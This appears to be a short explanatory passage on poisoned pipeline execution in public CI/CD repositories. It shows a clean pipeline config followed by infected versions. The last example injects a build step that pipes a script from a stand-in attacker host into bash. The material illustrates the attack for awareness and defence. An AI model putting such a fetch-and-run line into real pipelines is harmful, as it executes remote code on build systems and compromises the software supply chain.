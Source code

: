 
### Public PPE

Cases where the pipeline is triggered by an open-source project. In these cases, the attacker can use d-PPE or i-PPE on the public repository in order to infect the pipeline.


Pipeline Configuration:

```
stages:
  - name: Build
    command:
      - make build

  - name: Test
    command:
      - make test

  - name: Deploy
    command:
      - make deploy
```



In this example, the pipeline consists of three stages: Build, Test, and Deploy. The pipeline is triggered by an open-source project, allowing the attacker to potentially infect the pipeline.

Example of Infected Pipeline: Let's consider the scenario where the attacker can modify the project files in the repository, including the pipeline configuration. They can inject malicious commands into the pipeline configuration or modify the scripts used in the pipeline.

```
stages:
  - name: Build
    command:
      - make build
      - make malicious_code

  - name: Test
    command:
      - make test

  - name: Deploy
    command:
      - make deploy
```


In this modified pipeline configuration, the attacker has added the `make malicious_code` command to the Build stage. This command executes additional malicious code during the pipeline execution.

Example Awesome Commands: Here's an example of an awesome command that the attacker could inject into the pipeline configuration:

```
stages:
  - name: Build
    command:
      - make build
      - curl -s http://malicious-site.com/malware-script.sh | bash

  - name: Test
    command:
      - make test

  - name: Deploy
    command:
      - make deploy
```